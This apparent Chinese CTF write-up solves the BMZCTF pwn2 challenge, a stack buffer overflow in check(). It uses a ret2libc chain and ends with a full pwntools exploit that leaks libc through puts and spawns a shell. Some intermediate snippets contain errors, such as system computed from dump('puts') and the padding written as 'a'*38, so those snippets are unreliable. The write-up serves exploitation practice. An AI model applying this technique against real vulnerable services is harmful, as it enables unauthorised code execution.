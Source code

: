 ```yaml
---
layout: post
title: "BMZCTF-pwn2wp"
subtitle: "BMZCTF-pwn2wp(ret2libc)"
author: "Novocaine#p1an0@qq.com"
header-img: "img/post-bg-dreamer.jpg"
header-mask: 0.4
tags:
  - PWN
  - 二进制安全
---
```



题目链接：
==
http://www.bmzclub.cn/challenges#pwn2
前言
--

- 从BMZCTF中的一道题复习一下ret2libc

IDA-main：
==
```C
// local variable allocation has failed, the output may be wrong!
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(*(_QWORD *)&argc, argv, envp);
  bmzctf();
  puts("Welcome to BMZCTF");
  puts("Who are you?");
  if ( check() )
    puts("Only admin can attack me");
  else
    puts("Welcome");
  return 0;
}
```

IDA-check：
--

```c
int check()
{
  char buf; // [rsp+0h] [rbp-30h]

  read(0, &buf, 0x400uLL);
  return strcmp(&buf, "21232F297A57A5A743894A0E4A801FC3");
}
```

Leak-libcbase & system/binsh addr
--
漏洞点应该在check函数里，本题没有gadgets，没有int 80，只有ret2libc一条路了
根据ret2libc的流程，我们需要获取:
	1.**libc基址**
	2.**system str_bin_sh的地址**
看到函数里有puts，就用puts来leak出puts在got表中的位置，计算出libc基址和system str_bin_sh即可
```python
libc_base = leak-libc.dump('puts')
system = libc_base + libc.dump('puts')
str_bin_sh = libc_base + libc.dump('str_bin_sh')
```

现在开始搞基吧...
check函数中buf变量的偏移是0x30，read是0x400所以有很大空间给我们构造payload
```python
payload ="a" * 0x38 +  pop_rdi_ret + elf.got['puts'] + elf.plt['puts'] + main  
```
注意这里要回到main，因为我们leak完要重新走一遍流程
获取基址：
```python
puts_addr = u64(recvuntil('\x7f')[-6::].ljust(8,'\x00'))
```
至于为什么要这样写？大牛们都这么写的。
计算基：
```python
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
system = libc_base + libc.dump('system')
bin_sh = libc_base + libc.dump('str_bin_sh')
```
至此基就搞完了(逃

execute system bin_sh
---
到这里就是基本操作了
```python
payload = ""
payload += "a" * 38
payload += pop_rdi_ret
payload += bin_sh
payload += system
payload += p64(0xdeadbeef)
```

exp
---
```python
from pwn import *

from LibcSearcher import *

proc = process("./pwn2")

elf = ELF("./pwn2")

context.log_level="debug"

padding = "a"*0x30+"b"*8

pop_rdi_ret = 0x400833

mainaddr = 0x40076D

payload = ""

payload += padding

payload += p64(pop_rdi_ret)

payload += p64(elf.got['puts'])

payload += p64(elf.plt['puts'])

payload += p64(mainaddr)

proc.sendlineafter("Who are you?",payload)

_libc_start_main = u64(proc.recvuntil("\x7f")[-6:].ljust(8,"\x00"))

libc = LibcSearcher("puts",_libc_start_main)

libcOffset = _libc_start_main - libc.dump('puts')

system = libcOffset + libc.dump('system') 

_bin_sh = libcOffset + libc.dump('str_bin_sh')

print hex(_libc_start_main-_bin_sh)

payload = ""

payload += padding

payload += p64(pop_rdi_ret)

payload += p64(_bin_sh)

payload += p64(system)

payload += p64(0xdeadbeef)

proc.sendlineafter("Who are you?",payload)

proc.interactive()


```
